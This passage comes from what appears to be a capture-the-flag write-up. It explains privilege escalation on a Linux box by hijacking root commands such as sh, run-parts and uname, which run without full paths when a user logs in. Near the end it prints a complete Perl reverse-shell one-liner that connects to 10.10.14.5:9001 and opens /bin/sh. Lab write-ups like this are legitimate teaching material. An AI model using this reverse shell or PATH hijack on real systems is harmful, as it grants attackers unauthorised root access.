 ![](/reports/Writeup/image13.png) ← after logging out and logging back in

![](/reports/Writeup/image22.png)

Note that the user who created a binary in the /usr/local/bin path must logout and log back in for it to affect him. All other users on the box do not need to do that (I am not sure why). This means that in a real scenario, before the command is hijacked, a victim could run a command and it would work just as expected. After it gets hijacked, the victim could run that same command (during the same login session) and the hijacked binary would get executed instead! This is why for the sake of security, it is imperative that high-privileged users execute the full path of commands (especially when it comes to cron jobs). Let’s look for cron jobs running as root. There might be one that is running a command without using its full path. There is a great script on github called [pspy](https://www.google.com/url?q=https://github.com/DominicBreuker/pspy&sa=D&source=editors&ust=1653884891185100&usg=AOvVaw2w7-_BCyKSKMsXly3u3ToU) that actively monitors all processes running on a system. Downloading pspy and running it on the box, we see the following output:

![](/reports/Writeup/image10.png)

When first doing this box, I noticed that whenever I put a binary in the /usr/local/bin path or the /usr/local/sbin path, it would keep getting removed after some time. This cronjob is probably the culprit. I went into this rabbit hole for a long time. I tried using symbolic links to delete files, but it did not work. This privesc was especially difficult for people hacking on private instances (such as myself) because watch what happens when a person logs into jkr:

![](/reports/Writeup/image39.png)

Suddenly, we are met with a whole bunch of commands that don’t use the full path. We have sh, run-parts, and uname. Each of these commands is run by UID=0 which is root. So if we put a reverse shell in one of these binaries and copy it to the /usr/local/bin path, it will get executed and we will have a shell! The bash reverse shell did not work for me, so I used the perl reverse shell:

perl -e 'use Socket;$i="10.10.14.5";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![](/reports/Writeup/image41.png)
